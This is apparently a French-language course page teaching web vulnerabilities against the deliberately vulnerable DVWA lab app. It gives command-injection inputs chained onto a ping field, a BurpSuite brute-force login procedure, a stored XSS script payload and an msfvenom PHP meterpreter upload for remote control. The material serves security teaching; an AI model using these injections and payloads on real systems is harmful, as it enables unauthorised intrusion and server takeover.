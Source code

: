 # Vulnérabilités Web

L'ensemble des démonstrations de ce cours utilise une application Web nommée _Damn Vulnerable Web Application_ ou DVWA. C'est une application avec des vulnérabilités pour tester notre habileté à les exploiter.

## Exécution de commandes

Certaines applications Web utilisent les commandes du système d'exploitation pour offrir des services aux utilisateurs. Un pirate peut prendre avantage de ces applications pour exécuter des commandes non prévues.

Dans DVWA, aller dans la section _Command Execution_.

![19-command-execution](../images/2020/07/19-command-execution.png)

L'application permet de faire un ping.

si on entre `192.168.40.7` :

![19-command-execution-ping](../images/2020/07/19-command-execution-ping.png)

Sous Linux, il est possible d'exécuter plusieurs commandes sur la même ligne avec l'opérateur & ou |.

Essayons de voir le contenu du répertoire courant avec `192.168.40.7 & ls -la`

![19-command-execution-ls-la-ampersand](../images/2020/07/19-command-execution-ls-la-ampersand.png)

Essayons de voir le contenu du répertoire courant avec `192.168.40.7 | ls -la`

![19-command-execution-ls-la-pipe](../images/2020/07/19-command-execution-ls-la-pipe.png)

Nous nous trouvons dans quel répertoire? `192.168.40.7 | pwd`

![19-command-execution-pwd](../images/2020/07/19-command-execution-pwd.png)

Quelle version de Linux roule? `192.168.40.7 | uname -a`

Créons une nouvelle page Web : `192.168.40.7 | echo "<?php echo 'Salut la gang' ?>" > salut.php`

Essayons de voir le contenu du répertoire courant après la création du fichier avec `192.168.40.7 | ls -la`

![19-command-execution-ls-la-apres-salut-php](../images/2020/07/19-command-execution-ls-la-apres-salut-php.png)

Exécutons la nouvelle page :

![19-command-execution-salut-php](../images/2020/07/19-command-execution-salut-php.png)

### Source de la vulnérabilité

![19-command-execution-source](../images/2020/07/19-command-execution-source.png)

## Attaque avec une force brute

Certaines application Web sont susceptibles à une attaque par force brute. Pour démontrer comment faire une telle attaque, nous allons utiliser BurpSuite.

Pour installer BurpSuite :

`sudo apt install burpsuite`

1 - Créer un projet temporaire :

![20-burpsuite-projet-temporaire](../images/2020/07/20-burpsuite-projet-temporaire.png)

2 - Démarrer Burp :

![20-burpsuite-demarrer-burp](../images/2020/07/20-burpsuite-demarrer-burp.png)

3 - Dans firefox, configurer le proxy :

![20-firefox-proxy](../images/2020/07/20-firefox-proxy.png)

4 - Dans firefox, accéder à la page de DVWA :

![19-firefox-brute-force](../images/2020/07/19-firefox-brute-force.png)

5 - Mettre intercept à on dans Burpsuite :

![20-burpsuite-intercept-on](../images/2020/07/20-burpsuite-intercept-on.png)

6 - Dans firefox, entrer 'user1' et 'pass1' et cliquer sur **login** :

![19-firefox-login-user1-pass1](../images/2020/07/19-firefox-login-user1-pass1.png)

7 - Dans BurpSuite, sélectionner l'action **send to intruder** :

![19-burpsuite-send-to-intruder](../images/2020/07/19-burpsuite-send-to-intruder.png)

8 - Sélectionner l'onglet **intruder**, le sous-onglet **position** et changer le type d'attaque pour **cluster bomb** :

![19-burpsuite-payload-position-attack-type](../images/2020/07/19-burpsuite-payload-position-attack-type.png)

9 - Sélectionner **user1** et **pass1** :

![19-burpsuite-positions-add](../images/2020/07/19-burpsuite-positions-add.png)

10 - Dans l'onglet payloads, ajouter les codes utilisateurs dans le payload 1 et les mots de passe dans le payload 2 :

![19-burpsuite-payload-1](../images/2020/07/19-burpsuite-payload-1.png)

![19-burpsuite-payload-2](../images/2020/07/19-burpsuite-payload-2.png)

11 - Dans l'onglet options, ajouter un Grep - Match pour déterminer si l'attaque a réussi ou non :

![19-burpsuite-option-grep-match](../images/2020/07/19-burpsuite-option-grep-match.png)

12 - Lancer l'attaque :

![19-burpsuite-start-attack](../images/2020/07/19-burpsuite-start-attack.png)

13 - Résultats de l'attaque, nous avons trouvé 1 mot de passe valide :

![19-burpsuite-attack-results](../images/2020/07/19-burpsuite-attack-results.png)

## Cross Site Scripting

Les sites Web qui ont du contenu créé par les utilisateurs (par exemple un forum) peuvent permettre l'exécution de code Javascript injecté dans le contenu. De cette manière, un utilisateur malicieux peut exécuter du code sur le poste d'une victime lors de sa visite du site Web.

1 - Aller sur la page de XSS (stored) dans DVWA :

![19-XSS-initial](../images/2020/07/19-xss-initial.png)

2 - Écrire le payload dans le message :

`<script>alert("Bonjour la planète")</script>`

![19-XSS-script-payload-alert](../images/2020/07/19-xss-script-payload-alert.png)

3 - Résultats :

![19-XSS-alert-results](../images/2020/07/19-xss-alert-results.png)

## Upload

Si vous pouvez téléverser un fichier sur le serveur, vous pouvez prendre contrôle du serveur.

1 - Créer un fichier avec un payload à l'aide de MSFVenom :

`msfvenom -p php/meterpreter/bind_tcp lport=4444 -o mp.php`

![19-msfvenom-php-meterpreter](../images/2020/07/19-msfvenom-php-meterpreter.png)

2 - Aller sur la page upload de DVWA et téléverser mp.php :

![19-file-upload-mp-php](../images/2020/07/19-file-upload-mp-php.png)

3 - Exécuter le fichier mp.php :

![19-execute-mp-php](../images/2020/07/19-execute-mp-php.png)

4 - Lancer Metasploit avec le multi handler et le bon payload :

![19-msfconsole-multi-handler-bind-tcp-meterpreter](../images/2020/07/19-msfconsole-multi-handler-bind-tcp-meterpreter.png)

## Testez vos connaissances

[Petit quiz sur les vulnérabilités Web](https://forms.office.com/r/Hymgvx9Avb)
